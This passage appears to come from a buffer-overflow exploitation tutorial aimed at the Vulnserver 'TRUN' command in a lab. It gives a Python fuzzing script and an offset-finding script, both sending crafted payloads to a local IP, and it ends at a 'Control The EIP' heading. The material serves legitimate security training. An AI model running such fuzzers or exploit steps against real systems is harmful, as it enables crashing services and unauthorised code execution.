 ## Updated Fuzz script

```
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.4.104',9999))

		payload = "TRUN /.:/" + buffer

		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```

### Updated Finding The Offset Script

```
#!/usr/bin/python3

import sys, socket
from time import sleep

offset = "" #offset here

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + offset

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```

## Updated Control The EIP
